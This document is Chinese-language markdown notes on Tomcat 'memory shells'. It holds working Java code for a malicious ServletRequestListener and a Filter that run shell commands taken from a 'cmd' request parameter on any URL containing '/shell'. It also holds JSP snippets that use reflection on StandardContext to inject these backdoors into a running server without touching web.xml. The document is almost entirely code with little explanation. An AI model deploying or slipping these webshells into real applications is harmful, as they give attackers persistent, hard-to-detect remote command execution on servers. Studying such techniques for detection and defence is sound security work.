

[[JavaEE应用&Servlet技术&路由配置&生命周期&过滤器Filter&监听器Listen]]

## Listen内存马

Listener代码

```
package com.example.demo;  
  
import javax.servlet.ServletRequestEvent;  
import javax.servlet.ServletRequestListener;  
import javax.servlet.http.HttpServletRequest;  
import java.io.IOException;  
  
public class Listenshell implements ServletRequestListener {  
    @Override  
    public void requestInitialized(ServletRequestEvent sre) {  
        HttpServletRequest servletRequest = (HttpServletRequest) sre.getServletRequest();  
        String requestURI = servletRequest.getRequestURI();  
        String cmd = servletRequest.getParameter("cmd");  
        if(requestURI.contains("/shell")){  
            try {  
                Runtime.getRuntime().exec(cmd);  
            } catch (IOException e) {  
                throw new RuntimeException(e);  
            }  
        }  
    }  
  
    @Override  
    public void requestDestroyed(ServletRequestEvent arg0) {  
        System.out.println("Listenshell request destroyed");  
    }  
}
```

web.xml

```
<?xml version="1.0" encoding="UTF-8"?>  
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"  
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"  
         version="4.0">  
    <listener>        <listener-class>com.example.demo.Listenshell</listener-class>  
    </listener></web-app>
```

在监听器写入恶意代码然后通过注册监听器到虚拟内存中

### 断点分析

StandardContext#context
ApplicationContext#context
ServletContext#request.getServletContext

### 内存马


注册Listener

```
<%  
    ServletContext servletContext = request.getServletContext();  
    Field context = servletContext.getClass().getDeclaredField("context");  
    context.setAccessible(true);  
    ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);    Field context1 = applicationContext.getClass().getDeclaredField("context");  
    context1.setAccessible(true);  
    StandardContext standardContext = (StandardContext) context1.get(applicationContext);    Listenshell listen = new Listenshell();  
    standardContext.addApplicationEventListener(listen);%>
```

恶意Listener
```
<%  
    class Listenshell implements ServletRequestListener {  
        @Override  
        public void requestInitialized(ServletRequestEvent sre) {  
            HttpServletRequest servletRequest = (HttpServletRequest) sre.getServletRequest();            String requestURI = servletRequest.getRequestURI();            String cmd = servletRequest.getParameter("cmd");  
            if(requestURI.contains("/shell")){  
                try {  
                    Runtime.getRuntime().exec(cmd);  
                } catch (IOException e) {  
                    throw new RuntimeException(e);  
                }            }        }  
        @Override  
        public void requestDestroyed(ServletRequestEvent arg0) {  
            System.out.println("Listenshell request destroyed");  
        }    }  
%>
```

## Filter内存马

Filter代码

```
package com.example.demo;  
  
  
import javax.servlet.*;  
import javax.servlet.http.HttpServletRequest;  
import java.io.IOException;  
  
public class Filtershell implements Filter {  
    @Override  
    public void init(FilterConfig filterConfig) throws ServletException {  
    }  
  
    @Override  
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {  
        HttpServletRequest request1 = (HttpServletRequest) request;  
        String requestURI = request1.getRequestURI();  
        String cmd = request1.getParameter("cmd");  
        if(requestURI.contains("/shell")){  
            Process exec = Runtime.getRuntime().exec(cmd);  
        }  
    }  
  
    @Override  
    public void destroy() {  
        Filter.super.destroy();  
    }  
}
```

web.xml

```
<?xml version="1.0" encoding="UTF-8"?>  
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"  
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"  
         version="4.0">  
    <filter>        <filter-name>Test</filter-name>  
        <filter-class>com.example.demo.Filtershell</filter-class>  
    </filter>  
    <filter-mapping>        <filter-name>Test</filter-name>  
        <url-pattern>/*</url-pattern>  
    </filter-mapping></web-app>
```

### 内存马

注册Fileter

```
<%  
  ServletContext serlvletContext = request.getServletContext();  
  Field context = serlvletContext.getClass().getDeclaredField("context");  
  context.setAccessible(true);  
  ApplicationContext applicationContext = (ApplicationContext) context.get(serlvletContext);  Field context2 = applicationContext.getClass().getDeclaredField("context");  
  context2.setAccessible(true);  
  StandardContext standardContext = (StandardContext) context2.get(applicationContext);  Field configs = standardContext.getClass().getDeclaredField("filterConfigs");  
  configs.setAccessible(true);  
  Map map = (Map) configs.get(standardContext);  
  FilterDef filterDef = new FilterDef();  
  filterDef.setFilter(new com.example.demo.Filtershell());  
  filterDef.setFilterName("Test");  
  filterDef.setFilterClass(Filtershell.class.getName());  
  standardContext.addFilterDef(filterDef);  
  FilterMap filterMap = new FilterMap();  
  filterMap.setFilterName("Test");  
  filterMap.addURLPattern("/*");  
  standardContext.addFilterMapBefore(filterMap);  
  Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);  
  constructor.setAccessible(true);  
  ApplicationFilterConfig filterConfig = (ApplicationFilterConfig)  constructor.newInstance(standardContext, filterDef);  map.put("Test", filterConfig);  
%>
```

恶意Filter

```
<%  
  class Filtershell implements Filter {  
    @Override  
    public void init(FilterConfig filterConfig) throws ServletException {  
    }  
    @Override  
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {  
      HttpServletRequest request1 = (HttpServletRequest) request;      String requestURI = request1.getRequestURI();      String cmd = request1.getParameter("cmd");  
      if(requestURI.contains("/shell")){  
        Process exec = Runtime.getRuntime().exec(cmd);  
      }    }  
    @Override  
    public void destroy() {  
      Filter.super.destroy();  
    }  }%>
```